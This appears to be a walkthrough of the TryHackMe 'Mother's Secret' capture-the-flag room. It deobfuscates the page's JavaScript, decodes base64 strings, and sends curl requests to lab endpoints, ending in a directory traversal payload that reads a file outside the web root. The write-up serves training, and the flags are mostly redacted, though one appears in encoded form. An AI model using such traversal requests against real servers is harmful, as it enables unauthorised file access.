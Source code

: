 # Mother's Secret Walkthrough
<br/>

## Intro
Welcome to teh Mother's Secret challenge, here is teh link to the [room]() on TryHackMe.

In this challenge, you will investigate the TryHackMe Cargo Star Ship (THMCSS) Nostromo, owned by the Weyland-TryHackMe Corps and its compromised computer system, MU-TH-UR 6000. Your mission is to uncover hidden secrets by exploiting vulnerabilities in the web application running on the Nostromo server. Get ready to put your code analysis and exploitation skills to the test!

Upon accessing the MU-TH-UR6000 computer, AKA Mother, you will see the Mother UI server. However, since you only have a "Crew" Member level role, you only have read access to limited resources. But there are other ways to access it. Can you find them and uncover Mother's secret?

**Operating Manual**
﻿Below are some sequences and operations to get you started. Use the following to unlock information and navigate Mother:  
- Emergency command override is 100375. Use it when accessing _Alien Loaders_. 
- Download the task files to learn about Mother's routes.
- Hitting the _routes_ in the _right_ order makes Mother confused, it might think you are a Science Officer!


Whenever you feel ready press on "start the machine" and prepare your setup using either the AttackBox or your own machine connected via OpenVPN.

<br/>
<br/>

## The Challenge
The first thing we have to do is downloading the file attachments on our machine.
Then we can visit the hosted website with our browser at:
```
http://MACHINE_IP
```

Here we are presented with a panel containing some information about the challenge and our role: "crew member".
Now we can begin the search for the secret flag.

Viewing the page source we can identify a JavaScript document being called, but it is obfuscated, we can use an online JS deobfuscator and beautifier to read the content.
You will also need to decode some hex-strings and you will have this code:

```javascript
let authYaml = false;
let authNostromo = false;
const yamlSocket = io("/yaml");
const nostromoSocket = io("/nostromo");
const authWebSocket = () => {
  yamlSocket.on("connect", () => {
    console.log("Connected to /yaml route");
  });
  yamlSocket.on("yaml", chermaine => {
    authYaml = true;
    if (authNostromo && authYaml) {
      modifyData();
    }
  });
  yamlSocket.on("disconnect", () => {
    console.log("Disconnected from /yaml route");
  });
  nostromoSocket.on("connect", () => {
    console.log("Connected to /nostromo route");
  });
  nostromoSocket.on("nostromo", demeisha => {
    authNostromo = true;
    if (authNostromo && authYaml) {
      modifyData();
    }
  });
  nostromoSocket.on("disconnect", () => {
    console.log("Disconnected from /nostromo route");
  });
};
authWebSocket();
const modifyData = () => {
  contentx[2] = "Ash";
  contentx[3] = atob("VEhNX0ZMQUd7MFJEM1JfOTM3fQ==");
  document.querySelector(".crew-member").innerHTML = "Ash";
};
(() => {
  const jurany = document.querySelector(".dots-container");
  const leyiah = [];
  for (let tadan = 0; tadan < 32; tadan++) {
    let elaena = "";
    for (let locklynn = 0; locklynn < 42; locklynn++) {
      elaena += '<p class="custom-dots__dots"></p>';
    }
    if (tadan === 5) {
      leyiah.push('\n <div class="special-grid">\n  <div\n  class="w-full] rounded-lg flex items-center z-20 p-3 pb-0  shadow-lg flex-1"\n  >\n  <div class="flex flex-col w-[30%] justify-between h-full mr-[50px] text-center">\n    <div\n      class="p-4 theme-green rounded-lg relative button-box"\n      id="top"\n    > \n    <div class="absolute top-[50%] -right-[51px] w-[51px] flex items-center justify-center">\n      <p class="theme-line w-[51px]"></p>\n    </div>\n    Alien Loader\n    </div>\n    <div\n      class="p-4 theme-green rounded-lg relative button-box"\n      id="bottom"\n    > Pathways </div>\n    <div\n      class="p-4 theme-green rounded-lg relative button-box"\n      id="left"\n    > Role </div>\n    <div\n      class="p-4 theme-green rounded-lg relative button-box"\n      id="right"\n    > Flag </div>\n  </div>\n  <div class="flex justify-center flex-1 h-[20rem] overflow-y-auto descr-box 	 overflow-x-hidden theme-green">\n    <div\n      class=" rounded-lg py-2 px-4  flex gap-4 items-center justify-center mr-1"\n    >\n      <div class="content-placeholder">\n        <p>\n          Embedded within the intricate codes of Mother\'s system lies the Alien Loader, a peculiar\n          YAML loader function. This function parses and loads YAML data. Be cautious, as this\n          loader holds the truths to unveil the hidden paths.\n        </p>\n      </div>\n    </div>\n  </div>\n  </div>\n  <div class="flex w-full mx-auto items-center z-20 gap-2 pl-2 shadow-lg theme-color" >\n    <p class="text-lg">Use</p>\n    <b class="text-xl">UP</b>\n    <p class="text-lg">and</p>\n    <b class="text-xl">DOWN</b>\n    <p class="text-lg">keys to move.</p>\n  </div>\n</div>\n  ');
    }
    leyiah.push('<div class="custom-dots">' + elaena + "</div>");
  }
  jurany.insertAdjacentHTML("afterbegin", leyiah.join(""));
})();
const allBoxes = document.querySelectorAll(".button-box");
const removeArrow = () => {
  allBoxes.forEach(ener => {
    ener.innerHTML = "";
  });
};
const boxes = ["Alien Loader", "Pathways", "Role", "Flag"];
let contentx = ["Embedded within the intricate codes of Mother's system lies the Alien Loader, a peculiar YAML loader function. This function parses and loads YAML data. Be cautious, as this loader holds the truths to unveil the hidden paths.", "[!]CAUTION[!] The Nostromo holds countless winding corridors and concealed chambers, harboring secrets that lie beyond the intended boundaries. Embrace the power of relative file paths within MOTHER, to uncover SECRETS and traverse the labyrinthine structure of the ship and reach your desired destinations.", "Crew Member", atob("Q0xBU1NJRklFRA==")];
const addArrow = shelbyjean => {
  const mikailyn = document.querySelector(".content-placeholder");
  allBoxes.forEach((bryant, kerron) => {
    bryant.innerHTML = boxes[kerron];
    if (shelbyjean == kerron) {
      bryant.insertAdjacentHTML("afterbegin", '\n<div class="absolute top-[50%] -right-[51px] w-[51px] flex items-center justify-center">\n<p class="theme-line w-[51px]"></p>\n</div>\n');
      mikailyn.innerHTML = "";
      mikailyn.insertAdjacentHTML("afterbegin", "<p>" + contentx[value] + "</p>");
    }
  });
};
let value = 0;
document.addEventListener("keydown", function (drene) {
  var evaney = drene.keyCode || drene.which;
  switch (evaney) {
    case 38:
      value = value - 1;
      if (value < 0) {
        value = 0;
      }
      removeArrow();
      addArrow(value);
      break;
    case 40:
      value = value + 1;
      if (value > 3) {
        value = 3;
      }
      removeArrow();
      addArrow(value);
      break;
    default:
      return;
  }
});

```


Inside the code we can also spot some interesting base64 encoded strings, let's decode them:
```bash
echo "VEhNX0ZMQUd7MFJEM1JfOTM3fQ==" | base64 -d
```
-> ==THM_FLAG{REDACTED}== 

and 
```bash
echo "Q0xBU1NJRklFRA==" | base64 -d
```
-->  ==CLASSIFIED==

Looking at the downloaded file we can also understand that to access /nostromo/mother we need to visit first the /yaml and /nostromo endpoints.
So i crafted a request containing the oversside code using cURL (you can do the same with Burp Suite):
```bash
curl -X POST http://MACHINE_IP/yaml/ -H "Content-Type: application/json" --data '{"file_path":"100375.yaml"}' 
```

And i received the message:
```
FOR SCIENCE OFFICER EYES ONLY  special SECRETS:  REROUTING TO: api/nostromo ORDER: 0rd3r937.txt [****]
UNABLE TO CLARIFY. NO FURTHER ENHANCEMENT. 
```

Now we know that the code order is REDACTED

Now we can send a request to the /api/nostromo endpoint to retreive the order file:
```bash
curl -X POST http://MACHINE_IP/api/nostromo/ -H "Content-Type: application/json" --data '{"file_path":"0rd3r937.txt"}'
```

```
 Mother
FOR SCIENCE OFFICER EYES ONLY 
SPECIAL ORDER 937 [............

PRIORITIY 1 ****** ENSURE RETURN OF ORGANISM FOR ANALYSIS****]

ALL OTHER CONSIDERATIONS SECONDARY

CREW EXPENDABLE

Flag{REDACTED}

```

Now that we have visited the 2 endpoints we can go to /nostromo/mother and ask for the secret file:
```bash
curl -X POST http://MACHINE_IP/api/nostromo/mother/ -H "Content-Type: application/json" --data '{"file_path":"secret.txt"}'
```

And we get the response "Secret: REDACTED "

Sending a request like throws us an error.
```bash
curl -X POST http://MACHINE_IP/api/nostromo/mother/REDACTED -H "Content-Type: application/json" --data '{"file_path":"REDACTED"}'
```

The possible explanation is that is that the "/" directory is set as the current website root directory, meaning that we need to escape it doing directory traversal to reach the real root directory and that move to the flag.
```bash
curl -X POST http://MACHINE_IP/api/nostromo/mother/ -H "Content-Type: application/json" --data '{"file_path":"../../../../REDACTED"}'
```

It worked: 
```
Classified information.

Secret: REDACTED
```

<br/>
<br/>

Congratulations you have successfully uncovered the Mother's Secret adn practiced your decoding and API interaction skills.
Hope you had fun following along.

Catch you in the next CTF 😃 

